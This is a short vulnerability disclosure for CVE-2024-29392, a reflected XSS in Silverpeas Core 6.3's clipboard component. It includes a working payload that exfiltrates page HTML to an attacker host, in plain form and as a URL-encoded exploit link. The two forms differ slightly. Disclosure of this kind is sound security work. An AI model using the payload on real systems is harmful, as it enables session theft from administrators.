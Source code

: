 # CVE-2024-29392 XSS bypass CSP

Silverpeas Core 6.3 (https://github.com/Silverpeas/Silverpeas-Core) is vulnerable to Cross Site Scripting (XSS) via ClipboardSessionController.

[Vulnerability Type]
Cross Site Scripting (XSS)

[Vendor of Product]
Silverpeas

[Affected Product Code Base]
Silverpeas Core - 6.3.*

[Affected Component]
ClipboardSessionController

[Attack Vectors]
Reflect XSS in GET request would allow a non-authenticator attacker can send a request to admin. When click, attacker can obtain sessionID, this will also bypass the CSP

![](images/CVE-2024-29392.png)

Payload: <img src=x onerror="this.src='http://192.168.0.204:8888/?'+document.documentElement.outerHTML; this.removeAttribute('onerror');"

http://{LINK}/silverpeas/Rclipboard/jsp/Idle.jsp?%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%22%74%68%69%73%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%32%30%34%3a%38%38%38%38%2f%3f%27%2b%64%6f%63%75%6d%65%6e%74%2e%64%6f%63%75%6d%65%6e%74%45%6c%65%6d%65%6e%74%2e%6f%75%74%65%72%48%54%4d%4c%3b%20%74%68%69%73%2e%72%65%6d%6f%76%65%41%74%74%72%69%62%75%74%65%28%27%6f%6e%65%72%72%6f%72%27%29%3b%22%3e=aE


[Reference]
https://phulelouch.github.io/


[Discoverer]
phulelouch (Harvey Spec)

[Video PoC]
https://drive.google.com/file/d/1QQKhURt-RjgnneILSTyPwhrs_wfSK5UI/view?usp=sharing

